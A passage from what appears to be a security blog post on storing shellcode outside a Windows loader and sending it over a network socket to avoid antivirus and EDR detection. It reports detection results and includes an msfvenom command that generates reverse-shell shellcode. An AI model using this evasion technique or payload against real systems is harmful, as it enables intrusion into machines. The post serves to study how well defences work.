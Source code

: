Lets see how well the server application that receives and runs the shellcode is detected. **11/71** is not bad, it is good to note here that a majority of the engines that reported this as malicious are EDR applications and not standard AV. Although this application has no shellcode in it, it is still being detected by EDR agents. This is somewhat due to the execution flow of the application. Having READ, WRITE, and EXECUTE permissions for a small region of memory that is later executed by a created thread will raise some flags.

![Detection With no Shellcode](/assets/img/Can-Shellcode-be-Stored-Anywhere-to-Avoid-Detection/detectionEDR.png)

Sending this raw shellcode over a network socket did not get flagged by Windows Defender at all, and the calculator process is successfully spawned. Although this may be a neat trick, in the end spawning a calculator process isn’t that sophisticated or useful. So lets try something a little more complicated like spawning a reverse shell to see if that has any increased chances of being flagged.

![Spawning Calculator](/assets/img/Can-Shellcode-be-Stored-Anywhere-to-Avoid-Detection/spawningCalc.gif)

The shellcode we will use to spawn a reverse shell is similar to the one used to spawn a calculator process.

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f c
```

Spawning a reverse shell does work, but we aren’t done just yet. Navigating the system and doing benign things does not raise any flags, but when I tried simply writing some output to a text file, Windows Defender flagged and deleted the malicious server application on disk. Funnily enough, it does not stop the process if it is currently running in memory.
